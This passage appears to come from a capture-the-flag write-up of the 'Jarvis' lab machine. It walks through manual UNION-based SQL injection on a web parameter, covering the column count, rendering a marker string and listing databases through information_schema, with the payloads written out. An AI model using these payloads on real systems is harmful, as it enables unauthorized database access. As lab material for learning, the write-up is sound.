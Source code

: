 But when specifying 7, the web app returns the same amount of bytes (6522) I got when querying `cod=1` without SQL injection:

![](./images/jarvis-order-by-success.png)

At this point, I had determined there were 7 columns avaialble for injection.

### 3) Render the data

Notice below that I set `cod=-1` because the 6th field rendered to the page if no image could be found.

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,'r0kit',NULL;#
```

![](./images/jarvis-sql-injection-render-data.png)

### 4) Enumerate the databases

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,(SELECT GROUP_CONCAT(schema_name SEPARATOR ', ') from information_schema.schemata),NULL;#
```

![](./images/jarvis-sql-injection-list-databases.png)
